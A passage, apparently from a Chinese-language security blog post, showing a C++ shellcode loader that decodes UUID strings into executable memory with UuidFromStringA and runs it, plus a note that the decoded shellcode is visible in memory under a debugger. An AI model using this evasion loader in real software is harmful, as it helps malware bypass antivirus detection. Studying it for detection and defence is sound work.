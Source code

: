 ```cpp
    "4eed3b23-dbef-927d-a032-d42c525ae611",
    "08acfa7f-630f-2a5b-6608-38827a3fa1e4",
    "8b8285af-0a1b-4383-1002-32e87a66e06d",
};

int main() {
  LPVOID exec = nullptr;
  auto len = uuids.size() * 16;
  NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &len, MEM_COMMIT,
                          PAGE_EXECUTE_READWRITE);

  DWORD_PTR hptr = (DWORD_PTR)exec;

  for (auto& uuid : uuids) {
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuid.c_str(), (UUID*)hptr);
    if (status != RPC_S_OK) {
      return -1;
    }
    hptr += 16;
  }

  ((void (*)())exec)();
  return 0;
}
```

下斷點可以看到 `UuidFromStringA` 還原後的 shellcode 在記憶體中

![uuid decode in memory](/img/posts/zxgangandy/uuid-shellcode/uuid-in-memory.png)

